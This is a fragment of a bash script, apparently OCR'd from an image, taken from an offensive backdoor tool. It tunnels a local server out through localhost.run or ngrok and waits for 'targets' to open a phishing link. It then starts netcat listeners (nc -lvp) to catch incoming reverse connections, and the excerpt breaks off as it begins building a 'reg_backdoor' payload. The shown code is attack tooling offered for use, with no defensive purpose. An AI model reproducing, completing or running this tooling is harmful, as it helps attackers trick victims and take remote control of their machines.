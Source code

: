 listener() {

if [[ $forward == true ]];then
printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m]\e[1;91m Expose the server with command: \e[0m\n"
printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m]\e[0m\e[93m ssh -R 80:localhost:3333 custom-subdomain@ssh.localhost.run \e[0m\n"
#printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m]\e[0m\e[92m Send the HTTP link instead HTTPS to automatically download reg file \e[0m\n"

checkfound
else
default_start_listener="1"
printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] DO YOU WANNA START LISTENING ON PORT { %s } [1/0]?  \e[0m\n=> ' $custom_port
read start_listener
start_listener="${start_listener:-${default_start_listener}}"
if [[ $start_listener == "1" || $start_listener == "y" || $start_listener == "Yes" || $start_listener == "yes" ]]; then
printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Listening connection:\e[0m\n"
nc -lvp $custom_port
else
exit 1
fi
fi
}

checkfound() {

printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Waiting targets,\e[0m\e[1;77m Press Ctrl + C to exit...\e[0m\n"
while [ true ]; do

if [[ -e "ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m+\e[1;92m] Target opened the link!\n"
catch_ip

default_start_listener="Y"
printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Start Listener? \e[0m\e[1;77m[Y/n]\e[0m\e[1;33m: \e[0m'
read start_listener
start_listener="${start_listener:-${default_start_listener}}"
if [[ $start_listener == "Y" || $start_listener == "y" || $start_listener == "Yes" || $start_listener == "yes" ]]; then
printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Listening connection:\e[0m\n"
nc -lvp 4444

fi
fi
done
sleep 0.5

}

payload() {
if [[ $forward == true ]];then
server_port=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "tcp://0.tcp.ngrok.io:[0-9]*" | cut -d ':' -f3)
fi
printf "\e[1;91m------------------------------------------------------------|Starting_Pls_Wait|-----------------------------------------------------------------------\e[0m\n"
sleep 0.5
printf "\e[1;91m{\e[0m\e[1;33m+\e[0m\e[1;91m}\e[0m\e[1;77m Starting the Backdoor..............//\e[0m\n"
sleep 0.2
printf "\e[1;77m{\e[0m\e[1;33m+\e[0m\e[1;77m} Creating reg_backdoor............//\e[0m\n"
sleep 0.2